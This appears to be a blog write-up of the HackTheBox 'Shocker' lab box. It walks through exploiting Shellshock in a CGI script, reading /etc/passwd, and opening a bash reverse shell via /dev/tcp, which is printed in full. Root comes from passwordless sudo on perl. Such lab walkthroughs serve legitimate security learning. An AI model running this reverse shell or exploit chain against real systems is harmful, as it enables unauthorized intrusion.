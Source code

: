 ```yaml
---
layout: post
title: HackTheBox&#58; Shocker
description: Writeup for HTB box Shocker.
category: HackTheBox
---
```


### Introduction

Shocker is a Linux box, difficulty Easy on HTB.

It is very easy, using Shellshock to get shell and a trivial sudo command to get root shell.

### Initial Scan

![Shocker-1](/resources/Shocker-1.png)

### Shellshock

From the name suggest, our first prediction is the server is affected by [Shellshock vulnerability](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) in Apache server.
A quick curl to /cgi-bin/ folder show 403 error (note that /cgi-bin would give 404), further strengthen our guess.

Using `gobuster` with dirbuster medium wordlist as well as extension `sh` and `cgi`, we get our hit: `user.sh`.
The basic payload (with `cat /etc/passwd`) for Shellshock gives us result immediately, which means we get a RCE.
![Shocker-2](/resources/Shocker-2.png)

Replace the payload with our bash reverse shell:
```bash
/bin/bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```
we get a shell as user shelly and can read user.txt.
![Shocker-3](/resources/Shocker-3.png)

### Privesc: Sudo

Running `sudo -l` shows that user shelly can execute `/usr/bin/perl` without password.
With that in mind, we just need to write a short script to execute shell.
![Shocker-4](/resources/Shocker-4.png)

We get a root shell and can read root.txt.
